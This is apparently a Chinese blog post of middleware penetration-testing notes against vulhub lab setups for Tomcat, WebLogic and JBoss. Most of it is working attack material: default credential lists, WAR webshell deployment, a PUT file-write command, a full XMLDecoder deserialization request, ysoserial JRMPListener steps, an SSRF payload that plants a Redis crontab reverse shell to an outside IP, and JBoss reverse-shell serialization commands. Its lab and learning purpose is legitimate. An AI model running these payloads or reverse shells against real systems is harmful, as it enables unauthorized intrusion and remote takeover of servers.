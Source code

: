 ```yaml
---
title: 中间件测试
date: 2018-4-17 8:50:30
tags: Web安全
toc: true
---
```


> 周末陪陪家人
> 记录下一些中间件测试常见步骤

### Tomcat
  开始安装ubuntu，用sudo passwd root设置root密码，运行p神的[vulhub](https://github.com/vulhub/vulhub)时用root运行成功.

#### Tomcat7弱口令上传rar
sudo docker ps #查看启动的docker

http://127.0.0.1:8080/manager/html 口令tomcat 
ma.jsp文件打包为zip改后缀名为ma.war，deploy后访问http://127.0.0.1:8080/ma/ma.jsp

		root/root
		tomcat/tomcat 
		admin admin
		admin 123456

#### Tomcat5-9 PUT写文件

		curl -X PUT http://127.0.0.1:port/test.jsp/ -d @- < test.jsp
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/中间件1.png)
https://github.com/breaktoprotect/CVE-2017-12615
https://github.com/iBearcat/CVE-2017-12615

### Weblogic
http://127.0.0.1:7001/console

#### 弱口令
常见弱口令

		weblogic    weblogic 或Oracle@123
		system      system
		portaladmin portaladmin
		guest       guest
部署-安装-上载文件ma.war(ma.jsp打包为ma.zip改名为ma.war)
访问127.0.0.1:7001/ma/ma.jsp  例子的目录命名为ma

#### Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞

写shell地址 http://127.0.0.1:7001/bea_wls_internal/test.jsp  
burp发送即可
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

#### Weblogic 10.3.6.0 && 12.1.3.0 && 12.2.1.2 && 12.2.1.3
[poc](https://raw.githubusercontent.com/shengqi158/CVE-2018-2628/master/weblogic_poc.client1.for.scan-cve-2018-2628.py)
攻击者使被攻击主机请求JRMPListener主机(恶意payload)，并执行
利用：
在JRMPListener主机上运行以下命令：

		wget https://jitpack.io/com/github/frohoff/ysoserial/master/ysoserial-master.jar
		java -cp ysoserial.jar ysoserial.exploit.JRMPListener [监听端口] CommonsCollections1 [执行命令]

		例子：java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -nv 反弹ip 反弹端口'
监听

		nc -lvvp 6666

运行

	python CVE-2018-2628.py 

#### Weblogic 10.0.2 -- 10.3.6 ssrf
burp发包，探测端口
```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```
不存在则返回could not connect
Redis反弹shell
```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.18.0.3:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

### JBOSS
默认后台
http://localhost:8080

#### JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）
工具下载地址 http://scan.javasec.cn/java/JavaDeserH2HC.zip

	javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
	java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port //生成一个ReverseShellCommonsCollectionsHashMap.ser二进制文件
	nc -l -vv 9999
	curl http://192.168.1.109:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/中间件3.png)
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/中间件4.png)

#### 弱口令 getshell过程　　
admin:admin
以下引用Nmask:
　　访问管理页面，查看jboss配置页面中的JMX Console，这是JBoss的管理台程序，进入后找到Jboss.deployment包，该包下有flavor=URL.type=DeploymentSccanner选项。进入部署页面后便可以上传war文件，但与tomcat不同的是它不是本地上传war文件，而是从远程地址下载，因此需要自己准备一个文件服务器，用于远程下载war到目标jboss服务器上。具体方法是在部署页面找到”ADDURL”方法，输入URL地址，点击invoke。除了以上方法外，JMX-Console提供的BSH方法，同样也可以部署war包。

#### JBoss JMXInvokerServlet 反序列化漏洞

tools https://cdn.vulhub.org/deserialization/DeserializeExploit.jar
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/中间件2.png)

#### Reference
https://github.com/vulhub